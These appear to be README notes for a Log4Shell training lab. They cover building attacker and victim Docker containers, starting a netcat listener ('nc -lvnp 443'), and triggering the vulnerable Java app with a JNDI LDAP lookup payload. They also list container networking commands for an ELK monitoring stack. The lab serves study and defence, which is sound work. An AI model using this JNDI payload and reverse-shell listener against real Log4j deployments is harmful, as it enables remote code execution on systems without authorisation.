 # 3204

Set up Attack
```cd log4jshell-lab/attacker
docker-compose build 
docker-compse up -d 
```

Start the java app
```cd log4jshell-lab/victim/vuln-apps/others/basicJar

docker run -it --rm -v "$(pwd)":/opt/maven -w /opt/maven maven mvn clean install
```

Inside 
net cat listener 
`nc -lvnp 443`

run exploit 
`java -cp target/Log4jLabProject-1.0-SNAPSHOT-all.jar com.log4jshell.App '${jndi:ldap://127.0.0.1:1389/Run}'`



# 3204


# run file
#sudo docker-compose build<br/>
#sudo docker-compose up -d 


# check IP
#sudo docker-compose ps 
	sudo docker-compose <id container> | grep IPAddress
  
# stop docker 
	sudo docker-compose kill && docker-compose rm -f 

# Network connectivity
	docker network connect bridge web-server
	docker network connect bridge ldap-server
	docker network connect bridge 3204-logstash-1
	docker network connect bridge 3204-kibana-1
	docker network connect bridge 3204-elasticsearch-1

	docker network disconnect attacker_log4j web-server
	docker network disconnect attacker_log4j ldap-server
	docker network disconnect 3204_elk 3204-logstash-1
	docker network disconnect 3204_elk 3204-kibana-1
	docker network disconnect 3204_elk 3204-elasticsearch-1

	docker network rm attacker_log4j<br/>
	docker network rm 3204_elk

